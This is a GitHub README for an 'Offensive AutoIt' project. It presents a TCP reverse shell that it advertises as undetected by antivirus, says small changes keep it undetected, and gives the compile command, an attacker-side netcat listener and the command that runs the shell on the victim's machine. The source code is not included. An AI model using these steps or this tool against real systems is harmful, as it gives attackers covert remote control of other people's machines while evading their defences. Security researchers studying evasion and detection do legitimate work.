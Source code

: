 <div id="top"></div>
<div align="center">
  <a href="https://github.com/0xvinix/offensive-autoit">
    <img src="https://i.imgur.com/4Rapnym.png" alt="Logo" width="500" height="200">
  </a>

  <h3 align="center">Offensive AutoIt</h3>

  <p align="center">
    Simple AutoIt tools for offensive security.
    <br />
    <br />
    <a href="https://github.com/othneildrew/Best-README-Template">Author Linkedin</a>
  </p>
</div>
<br>

<!-- REVERSE SHELL -->
## Simple Reverse Shell

[![Everything Is AWESOME](https://yt-embed.herokuapp.com/embed?v=QEXk-N8lQ7g)](https://www.youtube.com/watch?v=QEXk-N8lQ7g "Simple Reverse Shell")

This is yet another simple TCP connection based reverse shell code, however, this is not detected by antivirus systems until today (23/03/2022). Possibly by its date of use, the code will already be quite detectable, but it only takes a few small modifications to make it not.

<br>
<h3> How to compile 🔨</h3>

To compile the code is very simple, you just need AutoIt v3 on your machine, which you can download from the link below.

https://www.autoitscript.com/site/autoit/downloads/

* cmd
  ```sh
  "C:\Program Files (x86)\AutoIt3\Aut2Exe\Aut2exe_x64.exe" /in "reverse_shell.au3" /console
  ```
<br>
<h3> Usage🔌</h3>

After compiling, just open a port using netcat.

* Attacker
  ```sh
  nc -vnlp 443
  ```
And on the victim's machine, run the compiled file passing your ip and port as an argument.

* Victim
  ```sh
  reverse_shell.exe 127.0.0.1 443
  ```
<br>
<h3> Av Detection (23/03/2022) 🐛</h3>

As already mentioned, until the date of creation of this repository, this code is completely undetectable by any antivirus.

<img src="https://antiscan.me/images/result/m3hwPh2nQ4dC.png">

<p align="right">(<a href="#top">back to top</a>)</p>
